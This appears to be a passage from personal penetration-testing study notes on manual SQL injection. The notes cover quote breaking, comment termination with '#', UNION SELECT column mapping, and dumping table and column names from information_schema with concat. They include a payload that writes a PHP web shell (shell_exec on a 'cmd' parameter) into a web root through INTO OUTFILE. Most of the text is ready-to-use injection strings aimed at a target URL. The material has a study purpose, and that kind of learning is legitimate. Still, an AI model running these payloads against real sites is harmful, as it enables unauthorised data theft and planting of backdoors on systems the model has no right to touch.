 Then `1,2,@@version,4` (moving it until it shows up- thats your 'viewport')


Another way to think about what we are doing:

' UNION SELECT 1,2,3,4,@@version,6 #

^ First break is the `'`.................................^ Second Break is the `#`

- The leading `'` breaks the query and begins interacting with the DB directly as commands
- We can assume there is a "hidden" `'` just to the right of the input field, so we add a `#` at the end to negate that and keep out list of commands as commands.

Why the `#`?  DRAW THIS OUT!!!!

`'union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor7.php`

- First `'` breaks it. It is the opener
- The `'` after OUTFILE is the closer
- We dont terminate this one because we need the hidden `'` If there wasn't a hidden one we would add a `'#`

The whole key here is figuring out if there is a hidden `'` at the end of the input box and where else we need a `'` . For example, we need a `'` encasing around the file destination.

**To map out all data fields in one shot**

Simply place a number as string in each column.

`union select "1","2","3","4","5","6"`

Now you can see by number where the column displays to the page. For example, you will see a 6 display on the page where the 6th column displays.  Hunt for a good spot to display the data you are going to be dumping.

**Mysql commands handy to inject:**

Current user logged in: `user()` or `current_user()`

Version: `version()` or `@@version`

Current DB: `database()`

Map the names of tables... looking for something juicy like users etc. (Column 5 is the display area we have chosen to leak the data in the following example):

`http://$tgt/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables`

Map the columns of a particular table... for example users.

`http://$tgt/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'`

Or from pentesterlab... a more organized method.

`1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns`

But wait... the window is only 1 column? concat them!

`1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`
